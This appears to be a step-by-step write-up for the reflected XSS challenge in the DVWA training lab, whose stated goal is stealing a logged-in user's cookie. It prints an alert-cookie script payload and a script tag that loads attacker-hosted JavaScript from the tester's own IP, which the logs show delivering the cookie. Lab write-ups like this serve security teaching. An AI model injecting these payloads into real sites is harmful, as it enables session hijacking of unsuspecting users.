 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_r/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/README.md">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Note: This challenge is extremely similar to <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>. We'll be using the same web server, exploit, and payload as before, so make sure those are good to go before proceeding.</i>

We see a basic web form with a field we can fill out.

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrform.png" width="500">

When we input a name into the field and click the "Submit" button, we see the string "Hello [inputted_name]" returned back to us.

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrtest.png" width="500">

Interesting. Can we cause an <code>alert</code> popup to occur using this field?

<code>&#60;script&#62;alert(document.cookie)&#60;/script&#62;</code>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrtestalert.png" width="500">

<i>Note that I actually input <code>document.cookie.split(";")[0]</code> as my payload, in order to hide my session ID. Just a privacy thing for me. You don't have to do that, and it impacts nothing besides what you see in my screenshots.</i>

Perfect! Instead of using an <code>alert</code>, let's use our previous exploit/payload combo from <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>.

<code>&#60;script src="http://[your_Kali_IP]:9999/a.js"&#62;&#60;/script&#62;</code>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrexploit.png" width="500">

If we inspect the form's source code after we input the exploit, we see it's been successfully inserted into the page:

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrsource.png" width="500">

And examining the Python web server logs shows the cookie:

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrcookie.png" width="500">

Easy enough! Challenge complete.
